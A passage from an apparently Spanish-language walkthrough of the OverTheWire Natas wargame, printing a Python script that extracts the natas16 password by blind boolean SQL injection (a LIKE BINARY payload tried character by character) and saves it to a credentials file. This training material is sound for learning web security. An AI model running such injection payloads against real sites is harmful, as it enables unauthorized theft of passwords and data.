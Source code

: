 ```python
    print('\n\n[*] Exit...\n')
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def force_brute_attack():
    # 1 get characters 
    characters = f'{string.ascii_letters}{string.digits}'
    natas16_pass = 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB'
    # 2 progress bar 
    attackProgress = log.progress('Brute force attack')
    attackProgress.status('Starting attack')
    passwordHackedProgress = log.progress('Password for natas16')
    # 3 itering on password column
    while True:
        found = False
        # 4 iteraing over characters
        for c in characters:
            attackProgress.status(f'trying with {c} character')
            injection = f'natas16" AND password LIKE BINARY "{natas16_pass}{c}%" #'
            # making http request
            res = make_request(injection)
            # 5 true when character is valid
            if 'This user exists' in res:
                natas16_pass += c
                passwordHackedProgress.status(natas16_pass)
                found = True
                break
        # break the cicle when password were found    
        if found == False:
            break
    
    attackProgress.success(f'Password found {natas16_pass}')
    return natas16_pass


if __name__ == "__main__":
    pass_found = force_brute_attack()
    os.system(f'echo "{pass_found}" > credentials/natas16')
    log.info('Password saved!')

```
### Ejecutando el ataque

Ahora si ejecutamos el script tendremos la siguiente salida

![natas](https://i.ibb.co/2YN5gJR/Screen-Shot-2022-10-05-at-18-04-39.png)
 
Y al pasar el tiempo empezará a completar la contraseña del próximo servidor y mostrándose de una forma bastante cool
